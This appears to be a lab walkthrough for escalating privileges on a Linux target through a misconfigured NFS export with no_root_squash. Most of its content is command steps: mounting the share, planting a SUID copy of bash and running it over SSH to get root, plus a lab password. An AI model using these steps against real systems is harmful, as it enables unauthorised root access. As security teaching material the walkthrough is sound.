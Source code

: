 
### Escalate Privileges in Linux Machine by Exploiting Misconfigured NFS


On target Linux machine:

	sudo apt update
	sudo apt install nfs-kernel-server
	

	sudo nano /etc/exports
Note: /etc/exports file holds a record for each directory that user wants to share within a network machine.

	/home *(rw,no_root_squash)
Note: /home *(rw,no_root_squash) entry shows that /home directory is shared and allows the root user on the client to access files and perform read/write operations. * sign denotes connection from any host machine.


restart the nfs server to apply the configuration changes:

	sudo /etc/init.d/nfs-kernel-server restart



On attacker side:

Check port 2049 is open and nfs service is running on it:

	nmap -sV 10.10.1.9
	
	sudo apt-get install nfs-common

Check if any share is available for mount in the target machine:

	showmount -e 10.10.1.9
Note: If you receive clnt_create: RPC: Program not registered error, restart target machine and  sudo /etc/init.d/nfs-kernel-server restart.


	mkdir /tmp/nfs
	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
	cd /tmp/nfs
	sudo cp /bin/bash .
	sudo chmod +s bash
	ls -la bash
	sudo df -h


try to login into target machine using ssh:

	ssh -l ubuntu 10.10.1.9		# in target’s password field enter toor 
	cd /home
	ls
	./bash -p	# open a bash shell
	id		# get the id’s of users
	whoami	# check for root access

Now we have got root privileges on the target machine, we will install nano editor in the target machine so that we can exploit root access
